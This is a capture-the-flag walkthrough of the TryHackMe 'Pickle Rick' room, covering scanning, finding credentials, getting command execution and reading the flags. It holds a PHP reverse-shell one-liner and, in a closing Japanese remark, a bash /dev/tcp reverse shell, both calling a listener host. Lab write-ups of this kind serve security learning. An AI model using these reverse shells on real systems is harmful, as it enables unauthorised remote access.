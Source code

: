 ## Try Hack Me Pickle Rick (Easy)
https://tryhackme.com/room/picklerick

### 🧁nmap
```
nmap -Pn -sV -sT -T4 -A 10.10.164.54 -p- -vv
```

```
Not shown: 65513 closed tcp ports (conn-refused)
PORT      STATE    SERVICE    REASON      VERSION
22/tcp    open     ssh        syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 7b:37:06:24:e5:3e:e9:fb:dd:23:85:e1:9a:b8:ed:9f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDT81rApdbIqrliStEeJd//NKS3V2Ca81KZ9e1omNR6Vu1b7txqq5/482iWYJ+yUcooDvWov4yzRPlftP12Lc3SIAr6cGjlYOLko8KMQQBQc5diWT7jHJhDLoMi7PaqTi5psNR2ePPaW+sz++DLWmDUYNLk9Z8Og+MZ09ugFBftgDOcJLExrJtJ1kGbslB+wjfZxAgHaLfLthdszonmbxCgUPBMhkA5xdSPvQlH7jvvxM7s5ism3XXL0ZeRykRXuxHPppchhy4Tfjym1XnUuKAwoUiXjVqxpnzrEG3fduFXBYDi/kVp5+mN5RBlLU6S6OPpjFzTA6Zv5e9yRluD5Cg9
|   256 56:5b:52:d5:96:17:30:43:a4:44:40:22:fd:cd:4e:a8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiZLP3/I06uORHJxSANOD67D2v7wwz3heBtgMVli4QBmEvXHYm53Lzw6yz5pTl8m01+2LxALaTNL2SagNk00jU=
|   256 19:ad:3f:6d:c4:29:2c:82:97:63:23:b3:93:ba:e4:f5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAID8Z/Gfb4vuSqzbEbUY6ngoyFGJpygvAYaPeuozk29eS
80/tcp    open     http       syn-ack     Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)

```
🚩22 ssh, 80 http open


```
curl 10.10.164.54
```

```
<!DOCTYPE html>
<html lang="en">
<head>
  <title>Rick is sup4r cool</title>
</head>
<body>

  <div class="container">
    <div class="jumbotron"></div>
    <h1>Help Morty!</h1></br>
    <p>Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!</p></br>
    <p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is,
    I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br>
  </div>

  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

</body>
</html>
```

🚩Username: R1ckRul3s

### 🧁gobuster
```
gobuster dir -u http://10.10.164.54 -w common.txt -x html,shtml,php,jsp,zip,gz,tar,bk -t 50 -b 403,404
```

```
/assets               (Status: 301) [Size: 313] [--> http://10.10.164.54/assets/]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
```

![image](https://user-images.githubusercontent.com/6504854/177176350-7fb88066-a6ef-44e8-a349-87eb04b95932.png)

![image](https://user-images.githubusercontent.com/6504854/177176488-1c82a4ae-2ff9-4302-a433-0ba4ae5d6f2e.png)

![image](https://user-images.githubusercontent.com/6504854/177176572-826a6985-115f-4064-a5c7-b254eb12d3fe.png)

### 🧁web-shell
Login Username:R1ckRul3s Pass:Wubbalubbadubdub
use command panel
![image](https://user-images.githubusercontent.com/6504854/177176919-7d3ad620-c63e-4657-b49c-997c7f00143e.png)

```
nc -lnvp 4444
```

```
php -r '$sock=fsockopen("10.10.10.10",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```
![image](https://user-images.githubusercontent.com/6504854/177181156-74abc304-0a75-446c-93a5-ce76a845314f.png)

![image](https://user-images.githubusercontent.com/6504854/177181337-8bfd5398-00a7-434b-9b66-cea9241685bd.png)

### 🧁flag
```
cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

```
cd /home
ls
rick
ubuntu
cd /home/rick
ls
second ingredients
cat 'second ingredients'
1 jerry tear
```

```
ls /root
3rd.txt
snap
cat /root/3rd.txt
3rd ingredients: fleeb juice
```

😄Happy hacking. Thank you for your time.

php使えるので思い付きでphpのonelinerを投げてしまいましたが、

いつも通り　 ``` bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1' ``` とかがスマート。　
